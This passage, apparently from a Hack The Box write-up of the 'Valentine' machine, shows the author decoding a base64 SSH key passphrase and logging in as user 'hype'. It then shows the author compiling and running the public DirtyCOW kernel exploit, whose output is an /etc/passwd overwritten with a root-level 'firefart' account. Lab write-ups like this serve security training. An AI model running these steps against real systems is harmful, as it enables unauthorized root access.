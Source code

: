 

![v12](https://user-images.githubusercontent.com/15195048/94270376-c9d6e300-fef4-11ea-8a61-8f47f8ea5f52.png)


Looking closlely to the data, there is a base64 password. I decoded it

**echo -n ‘aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==’ | base64 -d**

**heartbleedbelievethehype**

Alternatively, I could use the website's page:
http://10.10.10.79/decode.php


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
chmod 600 rsa.key
ssh -i rsa.key hype@10.10.10.79
Enter passphrase for key 'rsa.key':heartbleedbelievethehype
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


user.txt
--------------------------------------------------------------------------------------------------------------
# Privilege escalation no1
After spending sometime enumerating the system, it seems that the kernel is outdated. It is running an old version of Ubuntu that is propably vulnerable to DirtyCOW. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


To confirm that the target machine is vulnerable to **Dirty COW** we run Linux Exploit Suggester script.
With these information, we can search for an existing exploit in order to escalate our privileges to root.
Link:https://www.exploit-db.com/exploits/40839

**Notes:**

As an overview, the DirtyCOW vulnerability is a race condition in the Linux kernel’s memory subsystem which handles the copy-on-write breakage of private read-only memory mappings. By exploiting this vulnerability, an unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings, thus increasing their privileges on the system.

**Compile & execute **40839.c**

For the particular implementation of **DirtyCow exploit** we used, it automatically generates a new passwd file containing a new user “firefart” which overwrites the root account. After running the exploit we should be able to login with the newly created user with a password that we specify on a prompt. The original /etc/passwd file is then backed up to /tmp/passwd.bak.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hype@Valentine:/tmpgcc 40839.c -pthread -lcrypt -o 40839
hype@Valentine:/tmp ./40839
/etc/passwd successfully backed up to /tmp/passwd.bak

hype@Valentine:~$ head /etc/passwd
firefart:fi5FgEvdhZiPQ:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh 
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~